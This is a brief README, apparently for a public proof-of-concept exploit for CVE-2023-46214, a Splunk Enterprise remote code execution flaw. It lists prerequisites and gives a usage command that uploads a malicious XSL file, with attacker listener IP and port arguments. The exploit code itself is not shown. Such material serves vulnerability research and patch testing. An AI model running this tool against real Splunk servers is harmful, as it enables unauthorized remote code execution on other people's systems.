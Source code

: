 ### Prerequisites
```
Splunk Enterprise version <= 9.1.1
Splunk credentials with upload permission to adddatamethods
Splunk is not running on SHC mode
```

### Craft and upload a malicious XSL file to get remote code execution
```
python3 CVE-2023-46214.py --url <splunkUrl> --username <user> --password <password> --ip <lhost> --port <lport>
```

### References
* https://blog.hrncirik.net/cve-2023-46214-analysis
* https://advisory.splunk.com/advisories/SVD-2023-1104
* https://github.com/nathan31337/Splunk-RCE-poc

